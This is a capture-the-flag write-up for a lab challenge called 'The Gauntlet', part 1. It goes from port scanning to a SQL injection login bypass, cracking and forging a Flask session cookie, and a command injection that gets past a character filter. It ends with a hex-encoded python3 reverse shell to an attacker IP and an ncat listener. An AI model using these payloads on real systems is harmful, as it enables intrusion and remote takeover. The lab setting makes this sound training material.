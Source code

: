 
# The Gauntlet - Part 1

**Challenge Prompt:**

> So, you think you're a l33t h4xx0r? Alright, here's my little gauntlet to you then:  
> Break in through the website and get a shell one way or another. Once that's done, escalate your privileges and own the box.  
>
> You won't be needing any fancy kernel exploits or such, this one's all about bad practices and misconfigurations. Doesn't sound too hard, now does it? Good luck!

Flag binaries are located at /home/*****/user.flag and /root/root.flag  
the-gauntlet.hkn

## Prerequisites

This writeup will be missing the rabbit holes, and other wrong paths I took. I decided to do this to save time so I can write more writeups. I might decide to write a more complete one later, so this will be a writeup in the mind of someone not doing any mistakes. But I’m happy to talk on the discord to discuss the challenge.

## Finding ports

There is no website available at the ip we get from the Campfire. So next step is to port scan to figure where to start.

```bash
nmap -sV -v the-gauntlet.hkn
```

The result is back

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd 3.1.3 (Python 3.12.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So we have ssh port open at 22 and tcp port at 5000.

## Website

When going to the-gauntlet.hkn:5000 we get to a website with following html

```html
...
<body>
    <div class="container">
        <h1>Welcome.</h1>
        <p>This is my small gauntlet to you.</p>
        <p>It's simple: find a way in, get a shell
        <!-- (no flag before that!) -->, escalate your privileges
        <!-- .. a few times .. -->.</p>
        <p>There will be no need for web enumeration
        <!-- (scanning for files/directories, etc.) -->. 
        The steps ahead should be clear to you.</p>
        <p>Once you have a shell on the box, 
        deep enumeration shouldn't be necessary.</p>
        <p>Enjoy.</p>
        <a href="/login">Login</a> |
        <a href="/admin">Admin</a> 
    </div>
</body>
</html>
```

## Login page

We see there are links to a login and admin page. Admin page responds with

```
Access denied. Admins only.
```

Login page allows us to input username and password.

We don’t know any accounts, so usually when there is no source code it can be a sign of sql injection.

After looking at sql injection cheatsheets, this worked to login.

```
' OR 1==1; --
```

We get following html after logging in

```html
...
<body>
    <div class="container">
        <h1>Welcome Bob!</h1>
        <p>You are a regular user.</p>
        <a href="/logout">Logout</a> |
        <a href="/admin">Admin</a>
    </div>
</body>
</html>
```

So we are not admin yet.

## Flask Session

When looking at requests while logging in, we get a flask session cookie

```
eyJ1c2VyIjp7ImlzX2FkbWluIjpmYWxzZSwidXNlcm5hbWUiOiJCb2IifX0.Z9VHJQ.-m3orXMcfEzMkMWdElSF0LcclfY
```

Putting the token into jwt.io we get the following decoded header

```json
{
  "user": {
    "is_admin": false,
    "username": "Bob"
  }
}
```

So knowing the code had a sql injection, it could be possible for the secret being weak.

`flask-unsign` is a known tool that makes cracking this easier.

I download rockyou.txt as it’s a low hanging fruit password list and try it out with the unsign option.

```bash
flask-unsign --unsign --cookie "eyJ1c2VyIjp7ImlzX2FkbWluIjpmYWxzZSwidXNlcm5hbWUiOiJCb2IifX0.Z9VHJQ.-m3orXMcfEzMkMWdElSF0LcclfY" --no-literal-eval --wordlist rockyou.txt 
```

We then get back

```
[*] Session decodes to: {'user': {'is_admin': False, 'username': 'Bob'}}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 11264 attempts
b'itsasecret'
```

We can use the secret to create our own token that works with the website.

```bash
flask-unsign --sign --cookie "{'user': {'is_admin': True, 'username': 'Bob'}}" --secret 'itsasecret'
```

this generated the token

```
eyJ1c2VyIjp7ImlzX2FkbWluIjp0cnVlLCJ1c2VybmFtZSI6IkJvYiJ9fQ.Z9VLGA.Y36X4rBlVwVDoXUAMsUjGnkI-GM
```

## Remote Code Execution

and we can then login as the admin by replacing our session token with the token we in previous section

```html
...
<body>
    <div class="container">
        <h2>Admin Page</h2>
        <pre></pre>
        <form method="post">
            Host check: <input type="text" name="command" value="127.0.0.1"><br>
            <input type="submit" value="Submit">
        </form>
    </div>
</body>
</html>
```

When we try to submit we get the following output back in the html

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.032 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.032/0.032/0.032/0.000 ms
```

This looks like a result of a ping command, so next step seems to do a command injection to get access to the box.

Trying out different escape sequences reveals there is a blacklist of characters. Quick example is submitting a ; results in following message

```
Illegal characters detected!
```

I found that `$(whoami)` works and gives us the error

```
ping: user1: Name or service not known
```

Space is also banned, but `${IFS}` works as an alternative to space.

I decided to use python3 and decoding hex to get a reverse shell

```bash
$(python3${IFS}-c${IFS}'exec(bytes.fromhex("696d706f7274206f732c7074792c736f636b65743b733d736f636b65742e736f636b657428293b732e636f6e6e656374282822782e782e782e78222c313530343329293b5b6f732e6475703228732e66696c656e6f28292c6629666f72206620696e28302c312c32295d3b7074792e737061776e2822626173682229").decode())')
```

The bytes from hex is following code

```python
import os,pty,socket;s=socket.socket();s.connect(("x.x.x.x",15043));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")
```

Where `x.x.x.x` needs to be your ip either found in the browser lab, or vpn settings.

I open up a reverse proxy listener with following command

```bash
ncat -lvnp 15043
```

After sending the command I get access to the shell.

## Flag

We run the command `./user.flag` and get the flag for part 1

```
DDC{n0th1ng_l1k3_4_b1t_0f_RCE}
```

The challenge continues with part 2.

